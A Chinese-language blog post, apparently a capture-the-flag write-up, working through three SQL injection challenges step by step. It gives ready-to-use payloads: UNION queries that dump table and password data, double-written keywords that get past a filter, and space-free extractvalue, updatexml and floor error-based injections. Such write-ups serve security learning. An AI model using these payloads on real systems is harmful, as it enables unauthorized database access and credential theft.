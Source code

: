 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      对于多种sqli的练习与总结(一)               # 标题 
subtitle:   实操加强对sqli的熟悉度
date:       2020-04-01             # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


> 以下为做完题之后的整理，对于个人来说为了形成一个测试流程习惯

## 0x00：堆叠注入-lovesql
首先进入页面，发现有两个输入框，分别对于用户名和密码加上单引号测试闭合。  
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekjmd8ewj30kx0d20xo.jpg)  
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdekjdkyzuj30i905574a.jpg)  
报错点在密码处，首先尝试最简单的联合注入查询，通过select 语句探询字段数以及观察回显字段。  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdekmavozaj30hr0atgol.jpg)    
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekmi7h0aj30ej0ao41e.jpg)  
发现在第三个字段回显信息，那个我们可以利用以下语句找到flag。  
` 123' union select 1,2,concat(database())#`  这条语句可以找到数据库‘geek’   
` 123' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='geek'#`  
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekmdqsw5j30hs06xac2.jpg)  
` 123' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'#`  
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdeklt62lnj30hw067dho.jpg)  
` 123' union select 1,2,group_concat(password) from l0ve1ysq1#`  
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdeklq9wxpj30ho0aiq5f.jpg)  
找到flag，copy下来就容易看出了。  
总结一下：该sqli没有过滤，在使用联合查询注入这个简单注入时没有受到阻拦，使用group_concat是为了将整个字段的内容连接起来避免遗漏，
使用到了mysql特性数据库information_schema库，本次练习旨在提高熟悉程度以及小知识点的巩固。

## 0x01绕过简单规则-babysql
首先进入页面，依旧测试注入点，依旧和上述一样，用户密码为不同的输入，都加上单引号测试闭合以及注入点，这里就暂时不放上来了。   
测试一下联合注入：`23' union select 1,2,3#`  
报错回显：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdeklmrmqpj30c103t742.jpg)  
仔细一看，我们的union和select去哪了？？？？原来过滤规则将union、select替换为空字符，可以猜测敏感词都会替换为空，分析一下，用户的输入会经过一次遍历，查找到危险词汇就会替换为空。
由之前学习得知，双写这些词，就可以绕过：`123' uniunionon seleselectct 1,2,3#` 
成功回显：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdeklj3x8jj30ej0afgoo.jpg)  
那么我们就来fuzz一下，看看哪些词会被替换成空，打开burp，接下来就是载入自己的sql字典遍历一下看一看：  
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdeklg1hjcj30t10epabv.jpg)  
这就知道了哪些词汇会被替换，我们要使用的时候直接双写！！！
由于步骤和以上一样，就简单记录一下payload，不放图了（有点懒哈哈哈哈）  
` 123' uniunionon seleselectct 1,2,concat(database())#`  
` 123' uniunionon seleselectct 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whewherere table_schema='geek'#`  
` 123' uniunionon seleselectct 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name='b4bsql'#`  
` 123' uniunionon seleselectct 1,2,group_concat(passwoorrd) frfromom b4bsql#`  
总结一下：该题目添加了简单的过滤规则，输入比较容易绕过的类型，此处我使用了burp去遍历过滤词，便于后续的payload构造，此处依旧是联合注入，还是比较简单的一道题目。

## 0x02hardsql
首先进入页面，依旧开始测试注入点，还是和之前一样，密码为注入点，单引号闭合，#没有过滤，接着测试联合注入，页面响应为：  
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekl09bgxj30px0budkt.jpg)  
有过滤规则，统一了错误页面，那么开始测试哪些sql用词被过滤，依旧打开burp，遍历过滤词：  
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekkx4c9vj30s90gi767.jpg)  
可以看到过滤了空格、等号这些偏符号的都过滤了，联合注入也不能使用了，尝试堆叠注入，由于堆叠注入的使用条件非常有限，我们测试一下看看：
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekkstgcij30md08qdhf.jpg)  
可以看出这大概是不行的了，没法执行多条语句。接下来剩下报错注入和盲注，先尝试报错注入，所用到的所有词都没有过滤，由于这里空格被过滤了，用其他符号来代替完成：  
`123'^extractvalue(1,concat(0x7e,(select(database())),0x7e))#`  
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdekkpz8qdj30b705vgmg.jpg)  
报错信息回显，利用xpath错误回显我们需要的信息,那么就是说我们报错注入是成功的，接下来构造相关语句：
`123'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek'))),0x7e))#`
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdekkmqoczj30ba06fq3y.jpg)  
`123'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1'))),0x7e))#`
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdekjvam81j30dg08d40d.jpg)  
`123'^extractvalue(1,concat(0x7e,(select(password)from(H4rDsq1)),0x7e))#`  
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdekjrvog0j30f205tt9v.jpg)  
咦，这个时候只显示了一半，搜索了一下，发现extractvalue和updatexml这两个常用的报错注入函数能查询的字符串最大长度为32，在显示内容过多时，可用截取函数substr或者left，right来截取或者使用concat函数的参数位置调换以此获取前后信息。  
这里我们就利用left或者right来尝试一下  
`123'^extractvalue(1,concat(0x7e,(select(right((password),30))from(H4rDsq1)),0x7e))#`    
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdekjpb7p0j30ib07fdhu.jpg)  
这个时候我们拼接一下就完成了，这里总结以下：题目存在统一错误页面而且有错误信息回显，报错注入有一些会使用函数参数来返回错误信息，这一题使用到的是extractvalue，同类型的还有updatexml，都是利用xpath报错返回信息。    
通过ExtractValue报错,注入语句如下:
`and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));`  
通过UpdateXml报错,注入语句如下:
`and 1=(updatexml(1,concat(0x3a,(select user())),1))`   
拓展一下经常看见的双查询：  
通过floor报错,注入语句如下:   
`and select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);`这个报错查询主要是利用主键重复产生错误信息来回显。















